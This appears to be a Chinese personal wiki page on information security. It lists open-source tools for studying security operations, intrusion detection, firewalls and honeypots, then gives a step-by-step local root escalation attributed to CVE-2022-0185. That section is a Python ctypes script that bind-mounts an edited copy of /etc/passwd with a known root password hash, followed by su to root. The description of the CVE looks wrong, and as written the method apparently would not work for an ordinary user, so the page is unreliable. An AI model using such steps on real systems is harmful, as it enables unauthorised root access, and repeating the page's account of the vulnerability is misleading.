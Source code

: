 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
date: "2023-06-05T15:35"
weight: 1
---
```


# 概述

> 参考：
> 
> -


# 待总结

要研究态势感知或安全运营中心，可以采用OSSIM
要研究入侵防御技术，可以采用Snort或Security Onion
要研究防火墙技术，可以采用pfSense或OPNsense
要研究Web应用防火墙（WAF ），可以采用ModSecurity
要研究威胁情报技术，可以采用MISP或OpenCTI
要研究漏洞扫描技术，可以采用OpenVAS或W3AF
要研究堡垒机技术，可以采用JumpServer
要研究蜜罐技术，可以采用T-Pot或Hfish


# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root 
输入密码：password
```